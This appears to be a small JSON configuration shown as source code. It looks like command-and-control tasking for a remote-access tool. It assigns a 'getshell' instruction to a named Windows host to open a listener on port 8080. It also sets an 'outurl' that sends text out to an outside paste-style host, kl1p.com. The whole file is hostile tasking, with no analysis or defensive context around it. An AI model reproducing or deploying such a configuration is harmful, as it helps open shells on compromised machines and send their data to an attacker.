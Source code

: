 {
    "WIN-MK2U04MLL3I": {
        "getshell": "l t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/qwokc?save=true&id=&type=plain&name=qwokc&nid=&param=&client=web&text="
    }
}
